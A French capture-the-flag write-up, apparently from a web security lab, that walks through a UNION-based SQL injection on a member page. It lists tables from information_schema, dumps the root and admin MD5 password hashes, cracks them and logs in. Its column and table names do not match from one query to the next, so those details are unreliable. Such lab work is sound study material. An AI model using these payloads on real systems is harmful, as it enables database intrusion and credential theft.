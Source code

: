 
`ip`/index.php?page=member

Note: tous les codes suivants ont été insérés dans l'input liée au submit.

si on submit vide, on obtient:
*You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1*

En testant `1 OR 2`, on constate qu'une requete SQL est donc possible :
Voici notre bible pour ce flag : *http://www.sqlinjection.net/column-names/*

`TRUE` permet de valider l'expression précédente. `UNION` permet de coupler les résultats d'une première requête avec une seconde dont les composantes doivent être les mêmes.

`TRUE UNION SELECT table_schema, table_name FROM information_schema.tables`
Notamment, la table:


table_schema: Member_Brute_Force
table_name: db_default

`TRUE UNION SELECT table_name, column_name FROM information_schema.columns`
Notamment:
table_name: db_default
column_name: username
column_name: password

Ce qui permet de rechercher 2 par 2 (étant limités par l'UNION) les résultats pour chaques colonnes de la table users:
`TRUE UNION SELECT last_name, countersign FROM Member_Brute_Force.db_default`
Nous obtenons pour les utilisateurs suivants :
```
username: root
password: 3bf1114a986ba87ed28fc1b5884fc2f8

username: admin
password: 3bf1114a986ba87ed28fc1b5884fc2f8
```

soit en décrypté (md5): *shadow* (les 2 sont les mêmes). En allant sur la page de login (*`ip`/index.php?page=signin*), et en testant les combinaisons trouvées, nous retombons sur le flag !